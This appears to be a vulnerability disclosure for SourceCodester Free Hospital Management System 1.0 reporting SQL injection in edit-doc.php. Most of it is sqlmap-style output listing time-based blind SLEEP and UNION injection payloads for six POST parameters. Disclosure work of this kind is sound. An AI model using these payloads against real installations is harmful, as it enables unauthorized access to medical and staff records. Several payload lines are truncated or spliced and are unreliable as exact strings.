

https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file vm\doctor\edit-doc.php

The manipulation of the argument $id00,$nic,$oldemail,$email,$spec,$Tele leads to sql injection

```
Parameter: id00 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2' AND (SELECT 3966 FROM (SELECT(SLEEP(5)))CuGj) AND 'fhTa'='for.com&name=Dr.Akash Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassw

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id00=-8690' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a4796872624b4e6f68496e55726767636669596c6d,0x7178707a71),NULL-- -&oldemail=doctorh Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassword=doctor

Parameter: nic (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com&name=Dr.AT(SLEEP(5)))GcPL) AND 'lCet'='lCet&Tele=8080808080&spec=1&password=doctor&cpassw

Parameter: oldemail (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com' AND (SELECT 9085 FROM (SELECT(SLor.com&name=Dr.Akash Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassw

Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com' AND (SEL='MEHA&name=Dr.Akash Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassw

Parameter: spec (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com&name=Dr.AELECT 8937 FROM (SELECT(SLEEP(5)))anOk)&password=doctor&cpassword=doctor

Parameter: Tele (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com&name=Dr.A4213 FROM (SELECT(SLEEP(5)))NXCf) AND 'Mnoz'='Mnoz&spec=1&password=doctor&cpassw
```

